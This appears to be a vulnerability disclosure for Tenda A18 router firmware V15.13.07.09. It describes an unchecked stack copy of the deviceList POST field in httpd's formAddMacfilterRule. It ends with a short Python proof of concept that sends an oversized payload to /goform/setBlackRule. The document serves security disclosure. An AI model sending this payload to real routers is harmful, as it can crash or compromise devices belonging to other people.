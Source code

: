 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

httpd in the /bin directory has a stack overflow vulnerability. The vulnerability is in the `formAddMacfilterRule` function. This function takes the POST argument `deviceList` and passed it to function `parse_macfilter_rule`. `parse_macfilter_rule` copies it to the memory pointed by the second argument without checking the length. The memory that this second argument points to is the stack of the `formAddMacfilterRule` function.

<img src="img/image-20220526194651423.png" alt="image-20220526194651423" style="zoom: 80%;" />

<img src="img/image-20220526194751155.png" alt="image-20220526194751155" style="zoom: 67%;" />

## PoC

```python
import requests

data = {
    b"deviceList": b'A'*0x200 + b'\r'
}

requests.post("http://127.0.0.1/goform/setBlackRule", data = data)
```

![image-20220526195302854](img/image-20220526195302854.png)